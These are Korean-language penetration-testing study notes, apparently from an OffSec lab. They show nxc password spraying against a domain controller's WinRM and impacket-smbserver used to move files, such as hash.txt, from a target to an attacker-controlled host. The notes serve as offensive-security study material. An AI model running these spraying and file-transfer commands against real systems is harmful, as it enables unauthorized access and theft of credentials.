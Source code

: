 # nxc

crackmapexec과 비슷한 용도로 사용된다.

spraying 툴로써 좋다. winrm, ssh, smb… 여러 서비스에 사용 가능하다.

```
 nxc winrm 172.16.194.10 -u users.txt -p passwords.txt
WINRM       172.16.194.10   5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:medtech.com)
WINRM       172.16.194.10   5985   DC01             [-] medtech.com\leon:Flowers1
WINRM       172.16.194.10   5985   DC01             [-] medtech.com\offsec:Flowers1
WINRM       172.16.194.10   5985   DC01             [-] medtech.com\wario:Flowers1
WINRM       172.16.194.10   5985   DC01             [-] medtech.com\daisy:Flowers1
WINRM       172.16.194.10   5985   DC01             [-] medtech.com\toad:Flowers1
WINRM       172.16.194.10   5985   DC01             [-] medtech.com\goomba:Flowers1
WINRM       172.16.194.10   5985   DC01             [-] medtech.com\joe:Flowers1
WINRM       172.16.194.10   5985   DC01             [-] medtech.com\yoshi:Flowers1
```

# impacket-smbserver

개인적으로 가장 감탄했던 툴.

타겟머신에서 공격자 머신으로 파일들을 전송할 때 유용하다.

## smb 서버

relia는 공유폴더에 사용 할 이름.

뒤에 오는 .은 현재 디렉토리를 설정.

```
 impacket-smbserver relia . -smb2support -username test -password test
```

## smb 클라이언트

아래와 같이 서버의 주소와 디렉토리, 유저명과 비밀번호로 접속한다.

사용하는 드라이브는 아무거나 상관없다. Z: e: p: q:...

```
net use Z: \\192.168.45.155\relia test /user:test
The command completed successfully.

PS C:\> ls \\192.168.45.155\relia
ls \\192.168.45.155\relia


    Directory: \\192.168.45.155\relia


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/20/2025   6:56 PM           2052 automatic_configuration.lnk
-a----         2/20/2025   6:58 PM            721 config.Library-ms
-a----         2/20/2025   9:10 PM            286 hash.txt
```
